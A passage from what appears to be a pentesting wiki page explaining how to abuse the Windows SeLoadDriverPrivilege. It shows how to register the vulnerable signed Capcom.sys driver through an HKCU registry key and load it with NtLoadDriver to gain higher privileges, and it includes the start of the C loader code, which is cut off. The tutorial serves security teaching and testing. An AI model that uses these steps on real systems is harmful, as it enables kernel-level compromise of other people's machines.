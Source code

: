 We compile the above, execute and the privilege `SeLoadDriverPrivilege` is now enabled:

![](../../.gitbook/assets/a10.png)

#### Capcom.sys Driver Exploit <a href="#capcom-sys-driver-exploit" id="capcom-sys-driver-exploit"></a>

To further prove the `SeLoadDriverPrivilege` is dangerous, let's **exploit it to elevate privileges**.

You can load a new driver using **NTLoadDriver:**

```cpp
NTSTATUS NTLoadDriver(
  _In_ PUNICODE_STRING DriverServiceName
);
```

By default the driver service name should be under `\Registry\Machine\System\CurrentControlSet\Services\`

But, according with to the **documentation** you **could** also **use** paths under **HKEY\_CURRENT\_USER**, so you could **modify** a **registry** there to **load arbitrary drivers** on the system.\
The relevant parameters that must be defined in the new registry are:

* **ImagePath:** REG\_EXPAND\_SZ type value which specifies the driver path. In this context, the path should be a directory with modification permissions by the non-privileged user.
* **Type**: Value of type REG\_WORD in which the type of the service is indicated. For our purpose, the value should be defined as SERVICE\_KERNEL\_DRIVER (0x00000001).

Therefore you could create a new registry in **`\Registry\User\<User-SID>\System\CurrentControlSet\MyService`** indicating in **ImagePath** the path to the driver and in **Type** the with value 1 and use those values on the exploit (you can obtain the User SID using: `Get-ADUser -Identity 'USERNAME' | select SID` or `(New-Object System.Security.Principal.NTAccount("USERNAME")).Translate([System.Security.Principal.SecurityIdentifier]).value`

```bash
PCWSTR pPathSource = L"C:\\experiments\\privileges\\Capcom.sys";
PCWSTR pPathSourceReg = L"\\Registry\\User\\<User-SID>\\System\\CurrentControlSet\\MyService";
```

The first one declares a string variable indicating where the vulnerable **Capcom.sys** driver is located on the victim system and the second one is a string variable indicating a service name that will be used (could be any service).\
Note, that the **driver must be signed by Windows** so you cannot load arbitrary drivers. But, **Capcom.sys** **can be abused to execute arbitrary code and is signed by Windows**, so the goal is to load this driver and exploit it.

Load the driver:

```c
#include "stdafx.h"
#include <windows.h>
#include <stdio.h>
#include <ntsecapi.h>
#include <stdlib.h>
#include <locale.h>
#include <iostream>
#include "stdafx.h"

NTSTATUS(NTAPI *NtLoadDriver)(IN PUNICODE_STRING DriverServiceName);
VOID(NTAPI *RtlInitUnicodeString)(PUNICODE_STRING DestinationString, PCWSTR SourceString);
NTSTATUS(NTAPI *NtUnloadDriver)(IN PUNICODE_STRING DriverServiceName);

int main()
{
	TOKEN_PRIVILEGES tp;
	LUID luid;
	bool bEnablePrivilege(true);
```